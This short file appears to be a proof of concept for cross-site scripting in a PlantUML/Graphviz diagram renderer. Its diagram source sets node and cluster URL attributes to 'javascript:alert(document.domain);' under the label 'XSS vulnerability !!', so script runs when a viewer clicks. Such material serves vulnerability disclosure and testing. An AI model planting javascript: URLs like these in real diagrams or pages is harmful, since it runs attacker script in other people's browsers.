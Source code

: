 @startuml
digraph mygraph {
  subgraph cluster_self_portraits {
    URL="javascript:alert(document.domain);"
    label="XSS vulnerability !!"
    "CLICK-HERE!!!!" [URL="javascript:alert(document.domain);"]
  }
}
@enduml
